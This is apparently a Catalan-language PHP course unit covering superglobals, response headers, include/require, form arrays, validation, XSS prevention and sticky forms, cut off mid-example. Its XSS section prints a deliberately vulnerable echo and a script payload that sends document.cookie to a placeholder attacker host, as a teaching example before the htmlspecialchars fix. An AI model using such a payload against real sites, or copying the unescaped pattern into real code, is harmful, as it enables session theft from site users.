




# Unitat 3. PHP Avançat

## Resultats d'aprenentatge i criteris d'avaluació
::: details 📋 Resultats d'aprenentatge i criteris d'avaluació

**RA3. Escriu blocs de sentències embeguts en llenguatges de marques, seleccionant i utilitzant les estructures de programació.**

* **Criteris d'avaluació:**
* **a)** S'han utilitzat mecanismes de decisió en la creació de blocs de sentències.
* **b)** S'han utilitzat bucles i s'ha verificat el seu funcionament.
* **c)** S'han utilitzat “arrays” per a emmagatzemar i recuperar conjunts de dades.
* **d)** S'han creat i utilitzat funcions.
* **e)** S'han utilitzat formularis web per a interactuar amb l'usuari del navegador web.
* **f)** S'han emprat mètodes per a recuperar la informació introduïda en el formulari.
* **g)** S'han afegit comentaris al codi.


**RA 4. Desenvolupa aplicacions Web embegudes en llenguatges de marques analitzant i incorporant funcionalitats segons especificacions.**

* **Criteris d'avaluació:**
* **a)** S'han identificat els mecanismes disponibles per al manteniment de la informació que concerneix un client web concret i s'han assenyalat els seus avantatges.
* **b)** S'han utilitzat mecanismes per a mantindre l'estat de les aplicacions web.
* **c)** S'han utilitzat mecanismes per a emmagatzemar informació en el client web i per a recuperar el seu contingut.
* **d)** S'han identificat i caracteritzat els mecanismes disponibles per a l'autenticació d'usuaris.
* **e)** S'han escrit aplicacions que integren mecanismes d'autenticació d'usuaris.
* **f)** S'han utilitzat eines i entorns per a facilitar la programació, prova i depuració del codi.

**RA 5. Desenvolupa aplicacions Web identificant i aplicant mecanismes per a separar el codi de presentació de la lògica de negoci.**

* **Criteris d'avaluació:**
* **f)** S'han escrit aplicacions Web amb manteniment d'estat i separació de la lògica de negoci.
* **g)** S'han aplicat els principis de la programació orientada a objectes.
* **h)** S'ha provat i documentat el codi.

:::


## Temporalització

* 16 hores

## Índex

[Índex](#índex)
  1. [Supervariables](#1-supervariables)
  2. [Encapçalaments de resposta](#2-encapçalaments-de-resposta)
  3. [Separació lògica i vistes amb require i include](#3-separació-lògica-i-vistes-amb-require-i-include)
  4. [Ús avançat de formularis](#4-ús-avançat-de-formularis)
  5. [Cookies i sessions](#5-cookies-i-sessions)
  6. [Autenticació d'usuaris (password\_hash i password\_verify)](#6-autenticació-dusuaris-password_hash-i-password_verify)
  7. [Gestió d'errors i excepcions](#7-gestió-derrors-i-excepcions)
  8. [Classes i objectes](#8-classes-i-objectes)
  9. [Debug, proves i documentació \[Ampliació\]](#9-debug-proves-i-documentació-ampliació)
  10. [Exercicis](#10-exercicis)
      -  [10.1. Supervariables](#_10-1-supervariables)
      -  [10.2. Encapçalaments de resposta](#_10-2-encapcalaments-de-resposta) 


## 1. Supervariables

Les **supervariables** (o *variables superglobals*) són arrays predefinits de PHP que estan disponibles automàticament en **tots els àmbits** (scopes) d'un script: dins de funcions, mètodes de classes, i a nivell global, sense necessitat de fer `global $variable`.

En esta unitat en farem un ús avançat, però ací en tens una primera visió de conjunt. Cadascuna es tractarà en detall més avant:

| Supervariable | Contingut | On es tracta |
|---|---|---|
| `$_GET` | Dades enviades per l'URL (query string) | Ja vista a la unitat anterior |
| `$_POST` | Dades enviades pel cos d'una petició HTTP POST | Ja vista, ampliada al punt 4 |
| `$_SERVER` | Informació del servidor i de la petició HTTP | Punt 2 (capçaleres) |
| `$_COOKIE` | Cookies enviades pel navegador | Punt 5 |
| `$_SESSION` | Dades associades a la sessió de l'usuari | Punt 5 |
| `$_FILES` | Arxius pujats mitjançant un formulari | Punt 4.5 |
| `$_ENV` | Variables d'entorn del sistema | Este punt |
| `$_REQUEST` | Combinació de `$_GET`, `$_POST` i `$_COOKIE` | Este punt |



::: info 📖 Documentació oficial
 [PHP: Variables predefinides](https://www.php.net/manual/es/reserved.variables.php)
:::

### `$_ENV`

Conté les variables d'entorn del sistema operatiu o del servidor web. És habitual usar-la per a guardar dades de configuració sensibles (credencials de base de dades, claus d'API...) sense escriure-les directament al codi.

Treballarem amb més detall amb variables d'entorn en unitats posteriors amb **Laravel**.

```php
<?php
echo $_ENV['APP_NAME'] ?? 'No definida';
```

::: info 🛈︎ **Arxiu .env** 
En molts servidors, per defecte `$_ENV` ve buida perquè la directiva `variables_order` de `php.ini` no inclou la `E`. En projectes reals és molt habitual utilitzar la funció `getenv()` o llibreries com [vlucas/phpdotenv](https://github.com/vlucas/phpdotenv) per a gestionar variables d'entorn des d'un fitxer `.env`.
:::

```php
<?php
echo getenv('APP_NAME');
```

### `$_GET` i `$_POST`

Ja les vam vore a la unitat anterior. Simple recordatori ràpid:

```php
<?php
// URL: pagina.php?nom=Joan&edat=17
echo $_GET['nom'];  // Joan

// Formulari amb method="post"
echo $_POST['nom'];
```

### `$_REQUEST`

Combina en un sol array el contingut de `$_GET`, `$_POST` i `$_COOKIE`, segons l'ordre indicat a la directiva `request_order` del `php.ini`.

```php
<?php
// Recupera la dada 'nom' vinga d'on vinga (GET, POST o COOKIE)
$nom = $_REQUEST['nom'] ?? 'Anònim';
```

::: warning ⚠️ **Recomanació:** 
evita usar `$_REQUEST` en codi professional. En no distingir l'origen de la dada, pot introduir problemes de seguretat i fa el codi menys predictible. És preferible ser explícit i utilitzar `$_GET` o `$_POST` segons corresponga.
:::

### `$_SERVER`

Array associatiu amb informació sobre el servidor i l'entorn d'execució de l'script. L'estudiarem en detall al punt 2, però ací un tast:

```php
<?php
echo $_SERVER['REQUEST_METHOD'];   // GET, POST...
echo $_SERVER['HTTP_HOST'];        // domini de la petició
echo $_SERVER['REQUEST_URI'];      // ruta sol·licitada
```

### `$_COOKIE` i `$_SESSION`

Permeten mantindre informació entre diferents peticions HTTP (recorda que HTTP és un protocol *sense estat*). Les estudiarem en profunditat al punt 5.

```php
<?php
// Lectura d'una cookie prèviament creada
echo $_COOKIE['tema'] ?? 'clar';

// Lectura d'una variable de sessió (cal cridar session_start() abans)
session_start();
echo $_SESSION['usuari'] ?? 'no identificat';
```

### `$_FILES`

Conté informació dels arxius pujats mitjançant un formulari amb `enctype="multipart/form-data"`. Ho veurem amb detall al punt 4.5.

```php
<?php
// Estructura bàsica quan es puja un arxiu amb name="foto"
print_r($_FILES['foto']);
/*
Array (
    [name] => imatge.jpg
    [type] => image/jpeg
    [tmp_name] => /tmp/phpXXXXXX
    [error] => 0
    [size] => 102400
)
*/
```


::: tip 📌 **A recordar:** 
Totes les supervariables són *arrays associatius* i, per tant, s'utilitzen exactament igual que qualsevol array de PHP que ja coneixes (accés amb claus, `isset()`, `foreach`, etc.).
:::


## 2. Encapçalaments de resposta

Quan un servidor respon a una petició HTTP, envia dos blocs d'informació: les **capçaleres** (*headers*) i el **cos** (*body*) de la resposta. Les capçaleres no es veuen a la pàgina, però són essencials: indiquen el tipus de contingut, si cal redirigir el navegador, com gestionar la caché, quines cookies establir, etc.

::: info Nota
En PHP, tot el que s'imprimeix amb `echo` o es genera com a HTML forma part del **cos** de la resposta. Les capçaleres es gestionen amb funcions independents i s'envien *abans* que qualsevol contingut.
:::

### La funció `header()`

Permet enviar una capçalera HTTP en brut al navegador.

```php
<?php
header('Content-Type: application/json');
echo json_encode(['missatge' => 'Hola des de PHP']);
```

::: danger Error crític
La funció `header()` s'ha de cridar **abans que s'haja enviat cap byte de contingut** (ni tan sols un espai en blanc abans de `<?php`). Si ja s'ha enviat contingut, PHP llançarà l'avís: `Warning: Cannot modify header information - headers already sent`.
:::

```php
<?php
// ❌ MALAMENT: hi ha un salt de línia abans de <?php a l'arxiu
 
header('Location: index.php'); // Error!
```

### Capçaleres més habituals

#### Redireccions

```php
<?php
header('Location: login.php');
exit; // Important: aturar l'execució de la resta del script
```

::: warning Atenció
Després d'un `header('Location: ...')` cal cridar sempre a `exit` (o `die`). Si no, el codi PHP posterior continuarà executant-se encara que el navegador ja haja rebut l'ordre de redirigir.
:::

#### Tipus de contingut (`Content-Type`)

Indica al navegador com ha d'interpretar la resposta.

```php
<?php
header('Content-Type: text/html; charset=UTF-8'); // Per defecte en PHP
header('Content-Type: application/json');          // Resposta JSON (APIs)
header('Content-Type: text/plain');                 // Text pla
header('Content-Type: application/pdf');             // Un PDF
```

#### Codis d'estat HTTP

```php
<?php
http_response_code(404); // Recurs no trobat
echo "La pàgina sol·licitada no existeix";
```

```php
<?php
// Alternativa amb header(), indicant també la versió del protocol
header('HTTP/1.1 403 Forbidden');
```

#### Forçar la descàrrega d'un arxiu

```php
<?php
$arxiu = 'documents/factura.pdf';

header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="' . basename($arxiu) . '"');
header('Content-Length: ' . filesize($arxiu));
readfile($arxiu);
exit;
```


## 3. Separació lògica i vistes amb require i include

A mesura que una aplicació creix, no és pràctic tindre tot el codi (lògica de negoci, accés a dades i HTML) en un únic arxiu. PHP proporciona quatre construccions de llenguatge per a **incloure el contingut d'un arxiu dins d'un altre**, cosa que permet separar la lògica de les vistes i reutilitzar codi.

::: info Nota
Són *construccions del llenguatge* (com `echo` o `if`), no funcions. Per això no cal escriure-les amb parèntesis: `include 'arxiu.php';` és equivalent a `include('arxiu.php');`.
:::

### `include` vs `require`

| Construcció | Si l'arxiu NO existeix |
|---|---|
| `include` | Llança un **Warning** i el script **continua** executant-se |
| `require` | Llança un **Fatal Error** i el script **s'atura** immediatament |

```php
<?php
include 'capçalera.php';   // Si no existeix: avís, però l'script continua
require 'config.php';      // Si no existeix: error fatal, l'script s'atura ací
```

::: tip Bona pràctica
Utilitza `require` per a arxius **imprescindibles** per al funcionament de l'aplicació (configuració, connexió a la base de dades, funcions essencials). Reserva `include` per a elements **opcionals** on un error no hauria d'aturar tota la pàgina (per exemple, un banner publicitari o un widget lateral).
:::

### `include_once` i `require_once`

Fan exactament el mateix que les anteriors, però comproven prèviament si l'arxiu **ja ha sigut inclòs** amb anterioritat en l'execució. Si és així, l'ignoren.

```php
<?php
require_once 'funcions.php';
require_once 'funcions.php'; // No es torna a incloure, evita redeclaracions
```

::: warning Atenció
Sense el sufix `_once`, si un mateix arxiu s'inclou dues vegades i conté una `function` o `class`, PHP llançarà un error fatal: *Cannot redeclare function...*. És molt habitual utilitzar `require_once` per a arxius de configuració o de definició de funcions/classes.
:::

### Separació lògica: patró bàsic de capçalera i peu

Un ús molt comú és separar les parts comunes d'una pàgina (capçalera, menú de navegació, peu) en arxius independents.

**`capçalera.php`**
```php
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <title><?= $titolPagina ?? 'El meu lloc web' ?></title>
</head>
<body>
    <header>
        <nav>
            <a href="index.php">Inici</a>
            <a href="contacte.php">Contacte</a>
        </nav>
    </header>
```

**`peu.php`**
```php
    <footer>
        <p>&copy; <?= date('Y') ?> - CFGS DAW</p>
    </footer>
</body>
</html>
```

**`index.php`**
```php
<?php
$titolPagina = 'Pàgina d\'inici';
require 'capçalera.php';
?>

<main>
    <h1>Benvingut!</h1>
    <p>Este és el contingut propi d'esta pàgina.</p>
</main>

<?php require 'peu.php'; ?>
```

::: info Nota
Fixa't com la variable `$titolPagina` es defineix *abans* de l'`include`/`require`: l'arxiu inclòs comparteix el mateix àmbit (*scope*) de variables que l'arxiu que el crida.
:::

### Separació de la lògica i la vista (patró senzill tipus MVC)

Un altre ús fonamental és separar el **processament de dades** (lògica/controlador) de la **presentació** (vista/HTML), evitant barrejar consultes o càlculs amb marcatge HTML.

**`dades_usuaris.php`** (lògica)
```php
<?php
function obtenirUsuaris(): array {
    // En un cas real, ací hi hauria una consulta a la base de dades
    return [
        ['nom' => 'Ana', 'edat' => 17],
        ['nom' => 'Bru', 'edat' => 18],
    ];
}
```

**`llistat_usuaris.php`** (vista)
```php
<?php
require_once 'dades_usuaris.php';
$usuaris = obtenirUsuaris();
?>
<!DOCTYPE html>
<html lang="ca">
<body>
    <h1>Llistat d'usuaris</h1>
    <ul>
        <?php foreach ($usuaris as $usuari): ?>
            <li><?= htmlspecialchars($usuari['nom']) ?> (<?= $usuari['edat'] ?> anys)</li>
        <?php endforeach; ?>
    </ul>
</body>
</html>
```

::: tip Bona pràctica
Esta separació és el primer pas cap a arquitectures més organitzades com **MVC** (Model-Vista-Controlador), que veurem més avant en el cicle. Acostuma't a no barrejar consultes SQL ni lògica de negoci amb HTML des d'ara.
:::

### Rutes d'arxiu: absolutes vs relatives

Un error molt freqüent és que la ruta d'un `include`/`require` és relativa al **directori des d'on s'executa l'script principal**, no a l'arxiu on s'escriu l'`include`.

```php
<?php
// ❌ Pot fallar si este arxiu s'inclou des d'una carpeta diferent
require 'config.php';

// ✅ Recomanat: usar __DIR__ per a construir una ruta absoluta
require __DIR__ . '/config.php';
```

::: warning Atenció
`__DIR__` és una constant màgica de PHP que conté el directori de l'arxiu **on s'escriu**, no del que l'executa. És la manera fiable d'evitar errors de "arxiu no trobat" quan el projecte creix i té múltiples nivells de carpetes.
:::

📌 **A recordar:** `require` per a allò imprescindible, `include` per a allò opcional; afig `_once` quan hi ha risc de redeclaració; utilitza sempre `__DIR__` per a construir rutes fiables.


## 4. Ús avançat de formularis

A la unitat anterior vam vore l'ús bàsic de formularis amb `$_GET` i `$_POST` per a recuperar valors simples (camps de text, un `select` senzill...). En esta unitat aprofundirem en aspectes clau per a construir formularis **robustos i segurs**: com agrupar diversos valors en un array, com validar les dades introduïdes per l'usuari, com evitar atacs XSS, com fer que el formulari "recorde" el que l'usuari havia escrit si hi ha un error (*sticky forms*) i, finalment, com gestionar la pujada d'arxius i imatges.

### 4.1. Arrays en formularis

Quan un formulari té diversos camps que representen el **mateix concepte** (per exemple, diverses aficions marcades amb checkboxes, o diverses opcions seleccionades en un `select` múltiple), és molt útil que PHP els agrupe automàticament en un array, en lloc d'haver de gestionar-los un a un.

Açò s'aconsegueix afegint `[]` al final del `name` de l'input.

::: info Nota
El `[]` és només una convenció de nomenclatura HTML que PHP interpreta de manera especial: en rebre el formulari, agrupa tots els camps amb eixe mateix `name` en un array dins de `$_POST` (o `$_GET`).
:::

#### Checkboxes múltiples

```html
<form method="post" action="processar.php">
    <p>Selecciona les teues aficions:</p>
    <label><input type="checkbox" name="aficions[]" value="lectura"> Lectura</label>
    <label><input type="checkbox" name="aficions[]" value="esport"> Esport</label>
    <label><input type="checkbox" name="aficions[]" value="musica"> Música</label>
    <label><input type="checkbox" name="aficions[]" value="videojocs"> Videojocs</label>

    <button type="submit">Envia</button>
</form>
```

```php
<?php
// processar.php
if (isset($_POST['aficions'])) {
    // $_POST['aficions'] és un array amb els valors marcats
    foreach ($_POST['aficions'] as $afició) {
        echo htmlspecialchars($afició) . '<br>';
    }
} else {
    echo 'No has seleccionat cap afició.';
}
```

::: warning Atenció
Si l'usuari no marca cap checkbox, la clau `aficions` **no existeix** dins de `$_POST` (els checkboxes no marcats no s'envien mai). Per això cal comprovar sempre amb `isset()` abans d'iterar l'array, per a evitar un error de tipus *Undefined array key*.
:::

#### Select múltiple

```html
<form method="post" action="processar.php">
    <label for="idiomes">Idiomes que parles:</label>
    <select name="idiomes[]" id="idiomes" multiple size="4">
        <option value="ca">Valencià</option>
        <option value="es">Castellà</option>
        <option value="en">Anglés</option>
        <option value="fr">Francés</option>
    </select>

    <button type="submit">Envia</button>
</form>
```

```php
<?php
$idiomesSeleccionats = $_POST['idiomes'] ?? [];

echo 'Has seleccionat: ' . implode(', ', array_map('htmlspecialchars', $idiomesSeleccionats));
```

#### Arrays amb claus associatives

També és possible indicar una clau explícita dins dels claudàtors, útil per exemple per a formularis amb diverses files (com una taula editable):

```html
<form method="post" action="processar.php">
    <input type="text" name="producte[0][nom]" value="Teclat">
    <input type="number" name="producte[0][preu]" value="25">

    <input type="text" name="producte[1][nom]" value="Ratolí">
    <input type="number" name="producte[1][preu]" value="12">

    <button type="submit">Envia</button>
</form>
```

```php
<?php
foreach ($_POST['producte'] as $fila) {
    echo htmlspecialchars($fila['nom']) . ': ' . (float) $fila['preu'] . '€<br>';
}
/*
Teclat: 25€
Ratolí: 12€
*/
```

::: tip Bona pràctica
Este mecanisme d'arrays amb claus és el que utilitzen internament molts frameworks (com Laravel, que veurem més avant) per a formularis dinàmics on l'usuari pot afegir o eliminar files (per exemple, les línies d'una factura).
:::

#### Arrays multidimensionals amb claus associatives (name)

També es pot nomenar explícitament cada camp amb una clau descriptiva en lloc d'un índex numèric:

```html
<input type="text" name="contacte[nom]">
<input type="email" name="contacte[email]">
<input type="tel" name="contacte[telefon]">
```

```php
<?php
$contacte = $_POST['contacte'] ?? [];

$nom     = $contacte['nom']     ?? '';
$email   = $contacte['email']   ?? '';
$telefon = $contacte['telefon'] ?? '';
```

---

📌 **A recordar:** afig `[]` al `name` quan un mateix camp puga tindre diversos valors; comprova sempre amb `isset()` o l'operador `??` abans d'iterar, ja que els camps no enviats (com els checkboxes sense marcar) no apareixen a `$_POST`.


### 4.2. Validació de dades de formularis

Mai s'ha de confiar en les dades que envia l'usuari, encara que el formulari tinga restriccions HTML (`required`, `type="email"`, `maxlength`...). Estes validacions es poden saltar fàcilment (desactivant JavaScript, editant l'HTML amb les eines de desenvolupador, o enviant la petició directament amb ferramentes com Postman). Per tant, **tota validació real ha de fer-se sempre en el servidor**.

::: danger Error crític
La validació del costat del client (HTML5, JavaScript) millora l'experiència d'usuari, però **mai és una mesura de seguretat**. Les dades sempre s'han de validar de nou en PHP abans d'utilitzar-les o guardar-les.
:::

#### Comprovar que un camp existeix i no està buit

```php
<?php
$nom = trim($_POST['nom'] ?? '');

if ($nom === '') {
    $errors[] = 'El nom és obligatori.';
}
```

#### Funcions natives de validació de tipus

```php
<?php
$edat = $_POST['edat'] ?? '';

if (!ctype_digit((string) $edat)) {
    $errors[] = 'L\'edat ha de ser un número enter positiu.';
}
```

| Funció | Comprova |
|---|---|
| `ctype_digit()` | Només dígits (nombre enter positiu, com a cadena) |
| `ctype_alpha()` | Només lletres |
| `is_numeric()` | Nombre (enter o decimal, admet signe) |
| `empty()` | Buit, `null`, `0`, `"0"` o `""` |

::: warning Atenció
`empty()` considera "buit" també el valor `"0"`. Si un camp pot contindre legítimament el valor `0` (per exemple, un descompte de `0%`), no utilitzes `empty()` per a comprovar-lo: fes servir `$valor === ''` o `!isset($valor)`.
:::

#### El sistema de filtres: `filter_var()`

PHP incorpora una extensió específica per a validar i sanejar dades: **filter**. És l'eina recomanada per a validacions habituals com correus, URLs o nombres.

```php
<?php
$email = trim($_POST['email'] ?? '');

if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
    $errors[] = 'L\'email no és vàlid.';
}
```

```php
<?php
$web = trim($_POST['web'] ?? '');

if ($web !== '' && !filter_var($web, FILTER_VALIDATE_URL)) {
    $errors[] = 'La URL no és vàlida.';
}
```

```php
<?php
$edat = filter_var($_POST['edat'] ?? '', FILTER_VALIDATE_INT, [
    'options' => ['min_range' => 0, 'max_range' => 120]
]);

if ($edat === false) {
    $errors[] = 'L\'edat ha de ser un enter entre 0 i 120.';
}
```

::: info 📖 Documentació oficial
[PHP: filter_var](https://www.php.net/manual/es/function.filter-var.php) · [PHP: Filtres disponibles](https://www.php.net/manual/es/filter.filters.php)
:::

### Acumular i mostrar errors: patró complet

En un formulari real, no interessa mostrar només el primer error, sinó **acumular-los tots** i mostrar-los junts a l'usuari.

```php
<?php
$errors = [];

$nom = trim($_POST['nom'] ?? '');
$email = trim($_POST['email'] ?? '');
$edat = filter_var($_POST['edat'] ?? '', FILTER_VALIDATE_INT);

if ($nom === '') {
    $errors[] = 'El nom és obligatori.';
}

if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
    $errors[] = 'L\'email no és vàlid.';
}

if ($edat === false || $edat < 0) {
    $errors[] = 'L\'edat ha de ser un número positiu.';
}

if (empty($errors)) {
    // Totes les dades són vàlides: es pot processar el formulari
    echo 'Formulari enviat correctament!';
} else {
    foreach ($errors as $error) {
        echo "<p style='color:red'>$error</p>";
    }
}
```

::: info Nota
Este patró d'acumular errors en un array és la base del que veurem al punt 4.4 (*sticky forms*), on a més de mostrar els errors, tornarem a omplir el formulari amb els valors que l'usuari ja havia introduït.
:::


### 4.3. Seguretat XSS

**XSS** (*Cross-Site Scripting*) és un atac que consisteix a injectar codi JavaScript maliciós dins d'una pàgina web, aprofitant-se que l'aplicació mostra dades introduïdes per un usuari **sense sanejar-les**. Si eixe codi s'executa en el navegador d'un altre usuari, pot robar cookies de sessió, suplantar la identitat, redirigir a pàgines falses, etc.

::: danger Error crític
Qualsevol dada que provinga de l'usuari (`$_GET`, `$_POST`, `$_COOKIE`, capçaleres HTTP...) s'ha de considerar **no confiable** i mai s'ha d'imprimir directament en HTML sense sanejar-la prèviament.
:::

#### Exemple d'atac

Imagina un formulari de comentaris que mostra el que escriu l'usuari sense cap protecció:

```php
<?php
// ❌ CODI VULNERABLE
$comentari = $_POST['comentari'];
echo "<p>$comentari</p>";
```

Si un usuari malintencionat escriu com a comentari:

```html
<script>document.location='http://atacant.com/robar?cookie=' + document.cookie</script>
```

Eixe script s'executaria en el navegador de **qualsevol altre usuari** que visualitze el comentari, enviant la seua cookie de sessió a un servidor extern.

#### La solució: `htmlspecialchars()`

Convertix els caràcters especials d'HTML (`<`, `>`, `"`, `'`, `&`) en les seues entitats corresponents, de manera que el navegador els mostre com a text pla en lloc d'interpretar-los com a codi.

```php
<?php
// ✅ CODI SEGUR
$comentari = $_POST['comentari'];
echo "<p>" . htmlspecialchars($comentari, ENT_QUOTES, 'UTF-8') . "</p>";
```

Amb açò, el `<script>` de l'exemple anterior es mostraria literalment com a text (`&lt;script&gt;...`) en lloc d'executar-se.

| Caràcter original | Entitat HTML |
|---|---|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `"` | `&quot;` |
| `'` | `&#039;` (amb `ENT_QUOTES`) |
| `&` | `&amp;` |

::: info 📖 Documentació oficial: [PHP: htmlspecialchars](https://www.php.net/manual/es/function.htmlspecialchars.php)
:::

#### On aplicar `htmlspecialchars()`

La regla general és: **sanejar en el moment d'imprimir**, no en el moment de rebre la dada (així es manté la dada original intacta per a guardar-la a la base de dades o validar-la).

```php
<?php
function e(string $valor): string {
    return htmlspecialchars($valor, ENT_QUOTES, 'UTF-8');
}
```

```php
<h1><?= e($usuari['nom']) ?></h1>
<p>Benvingut/da, <?= e($_GET['nom'] ?? 'convidat') ?></p>
<input type="text" value="<?= e($_POST['nom'] ?? '') ?>">
```

::: info Nota
Crear una xicoteta funció d'ajuda com `e()` (habitual en molts frameworks, inclòs Laravel amb la sintaxi `{{ }}`) evita escriure `htmlspecialchars(..., ENT_QUOTES, 'UTF-8')` repetidament i redueix el risc d'oblidar-ho en algun lloc.
:::

### Casos especials: atributs HTML i URLs

```php
<?php
// Dins d'un atribut HTML: obligatori per a evitar tancar l'atribut amb cometes
echo '';

// Dins d'una URL: cal codificar-la amb urlencode(), no htmlspecialchars()
$cercar = $_GET['q'] ?? '';
echo '<a href="resultats.php?q=' . urlencode($cercar) . '">Cerca de nou</a>';
```

::: warning Atenció
`htmlspecialchars()` protegeix el contingut **HTML**, però no és la ferramenta adequada per a inserir dades dins d'una URL (usa `urlencode()`/`rawurlencode()`) ni dins de JavaScript o CSS incrustat (estos casos requerixen un tractament específic que va més enllà d'esta unitat).
:::


---

📌 **A recordar:** mai imprimisques dades de l'usuari directament en HTML; utilitza sempre `htmlspecialchars($valor, ENT_QUOTES, 'UTF-8')` en el moment de mostrar-les.

::: info 📖 Documentació oficial
[OWASP: Cross Site Scripting](https://owasp.org/www-community/attacks/xss/) · [PHP: htmlspecialchars](https://www.php.net/manual/es/function.htmlspecialchars.php)
:::

### 4.4. Sticky forms

Un **sticky form** (formulari "enganxós") és aquell que, quan hi ha un error de validació, torna a mostrar-se **amb els valors que l'usuari ja havia introduït**, en lloc de tornar-lo a mostrar buit. Millora molt l'experiència d'usuari: ningú vol tornar a omplir un formulari sencer perquè s'ha equivocat només en un camp.

::: info Nota
La tècnica combina el que ja hem vist als punts 4.2 (validació) i 4.3 (XSS): es reomplin els camps amb els valors previs, però **sempre passant-los per `htmlspecialchars()`**, ja que tornem a imprimir dades de l'usuari en HTML.
:::

#### Patró bàsic: un únic arxiu per a formulari i processament

La manera més senzilla d'implementar-ho és que el mateix arxiu PHP mostre el formulari i gestione l'enviament, comprovant el mètode de la petició amb `$_SERVER['REQUEST_METHOD']`.

```php
<?php
function e(string $valor): string {
    return htmlspecialchars($valor, ENT_QUOTES, 'UTF-8');
}

$errors = [];
$nom = '';
$email = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $nom = trim($_POST['nom'] ?? '');
    $email = trim($_POST['email'] ?? '');

    if ($nom === '') {
        $errors[] = 'El nom és obligatori.';
    }

    if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
        $errors[] = 'L\'email no és vàlid.';
    }

    if (empty($errors)) {
        // Dades vàlides: es processarien ací (guardar a BD, enviar email...)
        echo '<p style="color:green">Formulari enviat correctament!</p>';
        // Bona pràctica: buidar els valors per a no reomplir el formulari
        $nom = '';
        $email = '';
    }
}
?>
<!DOCTYPE html>
<html lang="ca">
<body>

    <?php if (!empty($errors)): ?>
        <ul style="color:red">
            <?php foreach ($errors as $error): ?>
                <li><?= e($error) ?></li>
            <?php endforeach; ?>
        </ul>
    <?php endif; ?>

    <form method="post" action="">
        <label for="nom">Nom:</label>
        <input type="text" id="nom" name="nom" value="<?= e($nom) ?>">

        <label for="email">Email:</label>
        <input type="email" id="email" name="email" value="<?= e($email) ?>">

        <button type="submit">Envia</button>
    </form>

</body>
</html>
```

::: tip Bona pràctica
Deixar l'atribut `action=""` buit (o ometre'l directament) fa que el formulari s'envie a la mateixa URL on es troba. És una manera còmoda de mantindre formulari i processament junts en el mateix arxiu, útil per a exemples senzills com este.
:::

#### Sticky en diferents tipus de camp

No només els `input type="text"` necessiten ser "sticky": també els `select`, `checkbox` i `radio` han de recordar l'opció prèviament seleccionada.

##### Select

```php
<?php
$paisSeleccionat = $_POST['pais'] ?? '';
$paisos = ['es' => 'Espanya', 'fr' => 'França', 'pt' => 'Portugal'];
?>
<select name="pais">
    <option value="">-- Selecciona --</option>
    <?php foreach ($paisos as $codi => $nomPais): ?>
        <option value="<?= e($codi) ?>" <?= $paisSeleccionat === $codi ? 'selected' : '' ?>>
            <?= e($nomPais) ?>
        </option>
    <?php endforeach; ?>
</select>
```

##### Checkbox

```php
<?php
$acceptaTermes = isset($_POST['termes']);
?>
<label>
    <input type="checkbox" name="termes" <?= $acceptaTermes ? 'checked' : '' ?>>
    Accepte els termes i condicions
</label>
```

##### Checkboxes múltiples (recorda el punt 4.1)

```php
<?php
$aficionsSeleccionades = $_POST['aficions'] ?? [];
$totesAficions = ['lectura', 'esport', 'musica', 'videojocs'];
?>
<?php foreach ($totesAficions as $afició): ?>
    <label>
        <input type="checkbox" name="aficions[]" value="<?= e($afició) ?>"
            <?= in_array($afició, $aficionsSeleccionades) ? 'checked' : '' ?>>
        <?= e(ucfirst($afició)) ?>
